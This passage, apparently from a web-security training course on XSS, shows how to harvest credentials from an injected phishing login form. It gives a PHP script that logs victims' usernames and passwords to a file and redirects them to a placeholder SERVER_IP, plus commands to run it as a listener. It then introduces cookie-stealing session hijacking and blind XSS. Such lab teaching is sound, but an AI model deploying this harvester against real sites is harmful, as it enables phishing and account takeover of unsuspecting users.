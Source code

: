 As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:

```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:800
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

## Session Hijacking

Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.

### Blind XSS Detection

We usually start XSS attacks by trying to discover if and where an XSS vulnerability exists. However, in this exercise, we will be dealing with a `Blind XSS` vulnerability. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:
